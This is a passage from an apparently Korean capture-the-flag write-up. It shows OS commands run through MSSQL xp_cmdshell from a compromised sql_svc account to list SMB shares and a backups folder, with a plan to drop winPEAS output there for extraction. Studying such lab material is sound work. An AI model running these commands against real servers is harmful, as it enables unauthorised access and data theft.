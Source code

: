
### 참고
아래는 winpeas.ps1의 실행 결과를 별도 파일로 저장하여 추출해내려고 할 때 사용하려던 방식이다. smb가 활성화되어 있으므로, 아래와 같이 backups의 실제 경로를 파악 후 해당 경로에 수집된 결과를 업로드해놓으면 추출이 용이하다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell net share
output
-------------------------------------------------------------------------------
Share name   Resource                        Remark
-------------------------------------------------------------------------------
IPC$                                         Remote IPC
C$           C:\                             Default share
ADMIN$       C:\Windows                      Remote Admin
backups      C:\backups

SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell dir C:\backups
output
-----------------------------------------------------
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\backups

01/20/2020  04:20 AM    <DIR>          .
01/20/2020  04:20 AM    <DIR>          ..
01/20/2020  04:23 AM               609 prod.dtsConfig
```